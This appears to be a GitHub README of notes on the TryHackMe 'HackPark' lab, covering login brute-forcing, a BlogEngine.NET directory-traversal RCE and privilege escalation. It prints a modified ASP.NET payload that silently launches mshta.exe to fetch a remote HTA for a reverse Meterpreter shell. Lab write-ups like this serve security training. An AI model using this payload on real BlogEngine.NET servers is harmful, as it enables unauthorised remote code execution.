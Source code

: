 
<a href="https://tryhackme.com/room/hackpark" target="_blank"><img src="./banner.png" width="700px" /></a>

> "Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!"

## Background

This room challenges its mock attackers to exploit vulnerabilities in a web application. It mainly involves brute forcing an admin login panel and exploiting a path traversial bug in the CMS. Post-exploitation has the attacker use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to work out privesc vulnerabilities to get SYSTEM-level privileges on the target system.

writeups: 
    * https://infosecwriteups.com/tryhackme-writeup-hackpark-bd9c075c5262
    * https://0x00sec.org/t/modified-cve-2019-6714-poc-to-execute-payload-via-mshta-exe/32728

### Materials

* [PostView.cs](./materials/PostViews.cs): this is a custom payload that I wrote when exploiting a directory traversial vulnerability in a .NET content management system.

## Takeaways

I already published a writeup, so will not go into detail in how I went about rooting the target system. However, there are some interesting things to note: 

* Reverse image searches can be useful in finding information about the organisation or target system.
* [Burp Suite](https://portswigger.net/burp)'s intruder feature can be used to brute force username/password combinations.
* Modifying C# _proof-of-concepts_ can be helpful in exploiting the system.

The following is source code of my modified version of a payload used in a path traversial attack allowing me to get a reverse Meterpreter shell:

```c#
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);
        System.Diagnostics.Process payload = new System.Diagnostics.Process();
        payload.StartInfo.FileName = "mshta.exe";
        payload.StartInfo.Arguments = ""; // url to HTA with payload
        payload.StartInfo.UseShellExecute = true;
        payload.StartInfo.CreateNoWindow = true;
        payload.Start();
    }
    
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
/*
 * References
 * Cobb, D. (2019). BlogEngine.NET <= 3.3.6 Directory Traversal RCE. Exploit Database. Retrieved on Apr. 25, 2022 from: https://www.exploit-db.com/exploits/46353
 *
 */
``` 

